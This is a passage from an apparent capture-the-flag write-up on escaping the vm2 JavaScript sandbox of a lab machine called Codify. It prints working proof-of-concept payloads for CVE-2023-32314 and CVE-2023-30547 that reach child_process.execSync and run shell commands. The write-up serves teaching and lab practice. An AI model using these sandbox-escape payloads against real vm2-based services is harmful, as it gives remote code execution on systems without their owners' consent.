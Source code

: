 ### Execution

There are four known CVEs that will work to get RCE here. One works completely as is, and the others take some small changes to show execution. I’ll show all four, though any one will work to get execution.

#### CVE-2023-32314

This CVE is the most straight-forward to exploit as testing it requires no modification at all. It escapes the sandbox using the `Proxy` object. This [page on Snyk](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100), or [this POC](https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac) linked to from the Security tab give the same POC:

```

  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("echo hacked").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }

```

The POC will run `echo hacked`, and on pasting it into Codify, it works:

![image-20240403200034171](/img/image-20240403200034171.png)

#### CVE-2023-30547

The next most straight forward to exploit is [CVE-2023-30547](https://security.snyk.io/vuln/SNYK-JS-VM2-5426093), which has to do with raising an exception inside of `handleException()`. There is [POC code](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) linked to on the [GitHub security issue](https://github.com/patriksimek/vm2/security/advisories/GHSA-ch3r-j5x3-6q2m) as well as a [POC on ExploitDB](https://www.exploit-db.com/exploits/51898) (which is incorrectly linked to on the [CVE-2023-37466 page on Snyk](https://security.snyk.io/vuln/SNYK-JS-VM2-5772825)).

The code part looks like:

```

err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}

```